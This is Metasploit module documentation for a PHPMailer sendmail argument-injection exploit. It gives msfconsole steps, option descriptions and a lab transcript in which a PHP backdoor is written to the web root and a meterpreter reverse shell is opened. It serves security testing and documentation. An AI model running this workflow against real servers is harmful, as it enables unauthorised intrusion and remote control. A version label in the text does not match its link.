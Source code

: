 ## Vulnerable Application

PHPMailer versions up to and including [5.2.20](https://github.com/PHPMailer/PHPMailer/archive/v5.2.20.tar.gz) are affected by a vulnerability which can be leveraged by an attacker to
write a file with partially controlled contents to an arbitrary location through injection of arguments that are passed
to the sendmail binary. This module writes a payload to the web root of the webserver before then executing it with an
HTTP request. The user running PHPMailer must have write access to the specified WEB_ROOT directory and successful
exploitation can take a few minutes.

[5.1.18](https://github.com/PHPMailer/PHPMailer/archive/v5.2.18.tar.gz) is also targetted.

## Verification Steps

  1. Install a vulnerable PHPMailer
  2. Start msfconsole
  3. `use exploit/multi/http/phpmailer_arg_injection`
  4.  Set the TARGETURI and WEB_ROOT options as applicable
  5. `exploit`
  6.  Verify the module yields a PHP meterpreter session in < 5 minutes
  7.  Verify the malicious PHP file was automatically removed

## Options

### WAIT_TIMEOUT
Seconds to wait to trigger the payload
### NameField
Name of the element for the Name field
### EmailField
Name of the element for the Email field
### MessageField
Name of the element for the Message field

## Scenarios

  Demo taken directly from [PR7768](https://github.com/rapid7/metasploit-framework/pull/7768)

```
msf (S:0 J:0) exploit(php_mailer) > options

Module options (exploit/linux/http/php_mailer):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST       192.168.90.134   yes       The target address
   RPORT       8080             yes       The target port
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       Path to the application root
   TRIGGERURI                   no        Path to the uploaded payload
   VHOST                        no        HTTP server virtual host
   WEB_ROOT    /www             yes       Path to the web root



Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.90.134   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



msf (S:0 J:0) exploit(php_mailer) > rexploit
[*] Reloading module...

[*] [2016.12.29-17:03:47] Started reverse TCP handler on 192.168.90.134:4444
[*] [2016.12.29-17:03:47] Writing the backdoor to /www/0IxI5AFB.php
[*] [2016.12.29-17:04:07] Sleeping before requesting the written file
[*] [2016.12.29-17:04:07] Waiting for up to 300 seconds to trigger the payload
[+] [2016.12.29-17:04:48] Successfully found the payload
[*] [2016.12.29-17:05:50] Sending stage (34122 bytes) to 172.17.0.2
[*] Meterpreter session 4 opened (192.168.90.134:4444 -> 172.17.0.2:47280) at 2016-12-29 17:05:50 -0500
[+] [2016.12.29-17:05:50] Deleted /www/0IxI5AFB.php
[+] [2016.12.29-17:06:10] Successfully triggered the payload


meterpreter > sysinfo
Computer    : 90f0c8e8dbe4
OS          : Linux 90f0c8e8dbe4 4.8.15-200.fc24.x86_64 #1 SMP Thu Dec 15 23:09:22 UTC 2016 x86_64
Meterpreter : php/linux

meterpreter >
```
